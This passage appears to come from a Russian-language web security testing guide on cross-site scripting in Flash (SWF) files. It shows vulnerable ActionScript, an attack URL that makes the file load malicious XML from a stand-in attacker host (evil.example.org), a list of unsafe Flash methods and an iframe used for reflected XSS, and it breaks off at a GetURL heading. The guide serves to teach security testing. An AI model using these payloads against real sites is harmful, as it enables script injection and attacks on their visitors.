 ```actionscript
            }
            on_load();
        } else {}
        };
        if (_root.language != undefined) {
        Locale.DEFAULT_LANG = _root.language;
        }
        v5.load(Locale.DEFAULT_LANG + '/player_' +
                            Locale.DEFAULT_LANG + '.xml');
    };
```

Приведенный выше код может быть атакован запросом:

`http://victim/file.swf?language=http://evil.example.org/malicious.xml?`

### Небезопасные методы

Когда точка входа идентифицирована, данные, которые она представляет, могут быть использованы небезопасными методами. Если данные не будут отфильтрованы или валидированы, это может привести к некоторым уязвимостям.

Небезопасными, начиная с версии r47, являются следующие методы:

- `loadVariables()`
- `loadMovie()`
- `getURL()`
- `loadMovie()`
- `loadMovieNum()`
- `FScrollPane.loadScrollContent()`
- `LoadVars.load`
- `LoadVars.send`
- `XML.load( 'url' )`
- `LoadVars.load( 'url' )`
- `Sound.loadSound( 'url' , isStreaming );`
- `NetStream.play( 'url' );`
- `flash.external.ExternalInterface.call(_root.callback)`
- `htmlText`

### Эксплуатация отражённых XSS

Файл swf должен быть размещён на хосте жертвы, и должны использоваться методы отражённого XSS. Злоумышленник заставляет браузер загрузить чистый swf-файл прямо в адресной строке (с помощью перенаправления или социальной инженерии) или загрузив его через iframe со злонамеренной страницы:

```html
<iframe src='http://victim/path/to/file.swf'></iframe>
```

В этой ситуации браузер самостоятельно сгенерирует HTML-страницу, как если бы она была размещена на хосте жертвы.

### GetURL (AS2) / NavigateToURL (AS3)
